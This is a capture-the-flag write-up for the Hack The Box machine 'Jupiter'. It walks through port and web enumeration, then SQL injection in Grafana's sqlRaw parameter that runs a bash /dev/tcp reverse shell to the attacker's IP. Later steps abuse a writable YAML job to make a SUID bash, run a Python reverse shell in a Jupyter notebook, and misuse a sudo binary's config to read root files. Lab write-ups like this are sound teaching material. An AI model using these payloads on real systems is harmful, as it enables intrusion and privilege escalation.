 # Jupiter

<p align="center"><img src="assets/Jupiter.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Jupiter
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.216

Discovered open port 22/tcp on 10.10.11.216
Discovered open port 80/tcp on 10.10.11.216
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.216

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>vhost</summary>

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://jupiter.htb/

Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
```
</details>

<details>
<summary>dir (<code>jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://jupiter.htb/'

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]
```
</details>

<details>
<summary>dir (<code>kiosk.jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://kiosk.jupiter.htb/'

/login                (Status: 200) [Size: 34390]
/profile              (Status: 302) [Size: 29] [--> /login]
/signup               (Status: 200) [Size: 34390]
/public               (Status: 302) [Size: 31] [--> /public/]
/admin                (Status: 302) [Size: 24] [--> /]
/plugins              (Status: 302) [Size: 24] [--> /]
/live                 (Status: 302) [Size: 24] [--> /]
/org                  (Status: 302) [Size: 24] [--> /]
/logout               (Status: 302) [Size: 29] [--> /login]
/explore              (Status: 302) [Size: 24] [--> /]
/monitoring           (Status: 200) [Size: 34390]
/verify               (Status: 200) [Size: 34390]
/metrics              (Status: 200) [Size: 100948]
/configuration        (Status: 302) [Size: 24] [--> /]
/connections          (Status: 302) [Size: 24] [--> /]
/styleguide           (Status: 200) [Size: 34390]
/playlists            (Status: 200) [Size: 34390]
/alerting             (Status: 200) [Size: 34390]
```
</details>

## Foothold

### Web → `postgres-user`

#### Searching for Vulnerabilities

- when accessing the Grafana instance at `kiosk.jupiter.htb`, several POST requests are sent to the server (can be intercepted with burpsuite)
- the POST request to `/api/ds/query` contains the parameter `sqlRaw`
- `sqlmap -r request` shows that `sqlRaw` is injectable
    - DBMS appears to be **PostgreSQL > 8.1**
    - unfortunately the `--os-shell` is extremly slow and therefore unusable

#### Exploitation

1. Start a reverse shell listener using netcat:
   
    ```
    nc -lvnp 9002
    ```
2. We can perform the SQL injection manually by setting the `sqlRaw` parameter to the following value:

    ```
    COPY cmd_exec FROM PROGRAM 'bash -c \"/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1\"';
    ```
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

3. We now have reverse shell access for user `postgres-user`!

## Lateral Movement

### `postgres-user` → `juno` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` indicates that there are two user accounts with a home directory:
    
    ```
    juno:x:1000:1000:juno:/home/juno:/bin/bash
    jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
    ```
- `find / -user juno 2>/dev/null` will show that `juno` is the owner of the files in `/dev/shm/`
- `/dev/shm/network-simulation.yml` can be edited and contains commands that are run periodically

#### Exploitation

1. Edit `network-simulation.yml` so that a bash with SUID-bit set for `juno` will get created in `/tmp`:
    
    ```yaml
    server:
        network_node_id: 0
        processes:
        - path: /usr/bin/cp
        args: /bin/bash /tmp/bash
        start_time: 3s
    # three hosts with hostnames 'client1', 'client2', and 'client3'
    client:
        network_node_id: 0
        quantity: 3
        processes:
        - path: /usr/bin/chmod
        args: u+s /tmp/bash
        start_time: 5s
    ```
2. After a while `/tmp/bash` will get created. We can start a bash as `juno` by running `/tmp/bash -p`. Unfortunately `user.txt` cannot be accessed yet.
3. After adding my SSH public key in `/home/juno/.ssh/authorized_keys`, we can log in as `juno` via SSH and access the user flag! 🚩

### `juno` → `jovian`

#### Searching for Vulnerabilities

- `ss -tlp` shows that there are tcp ports `3000` and `8888` open locally
- By using the SSH port forwarding feature, we can scan these ports using nmap:

    ```
    ssh -L 3000:localhost:3000 juno@10.10.11.216
    ssh -L 8888:localhost:8888 juno@10.10.11.216    
    ```
    - <details>
        <summary>nmap output</summary>
        
        ```
        PORT     STATE SERVICE VERSION
        3000/tcp open  ppp?
        | fingerprint-strings:
        |   GenericLines, Help:
        |     HTTP/1.1 400 Bad Request
        |     Content-Type: text/plain; charset=utf-8
        |     Connection: close
        |     Request
        |   GetRequest:
        |     HTTP/1.0 200 OK
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:48 GMT
        |     <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" content=
        |   HTTPOptions:
        |     HTTP/1.0 404 Not Found
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:53 GMT
        |_    <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" c
        8888/tcp open  http    Tornado httpd 6.2
        | http-title: Jupyter Notebook
        |_Requested resource was /login?next=%2Ftree%3F
        |_http-server-header: TornadoServer/6.2
        | http-robots.txt: 1 disallowed entry
        |_/
        ```
        </details>

    - Port `3000` seems to be the Grafana instance
    - Port `8888` is a Jupyter notebook 

#### Exploitation

1. When opening the Jupyter webinteface under `localhost:8888`, a token must be entered, which can be found in `/opt/solar-flares/logs/jupyter-2023-09-07-15.log`.
    - Token: `ecae914aaaf6c419b40775ad51f07e7d3aece17a93e7104`
2. Start a reverse shell listener using netcat:
    
    ```
    nc -lvnp 9002
    ```
3. After entering the token, a new Jupyter notebook can be created and the payload for a reverse shell can be executed in a cell:
    
    ```python
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
    ```
4. We now have reverse shell access for `jovian`.


## Privilege Escalation

### `jovian` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `/usr/local/bin/sattrack` binary with sudo
- executing `/usr/local/bin/sattrack` gives an error message stating that a `/tmp/config.json` is required

#### Exploitation

1. A working configuration file can be found under `/usr/local/share/sattrack/config.json`, which can be copied to `/tmp/config.json`.
2. We can modify the configuration file `/tmp/config.json` so that the program outputs the root flag:
    
    ```json
    "tlesources": [
        "file:///root/root.txt",
    ],
    ```
3. After executing `sudo /usr/local/bin/sattrack`, we can find the root flag in `/tmp/tle/root.txt`! 🏁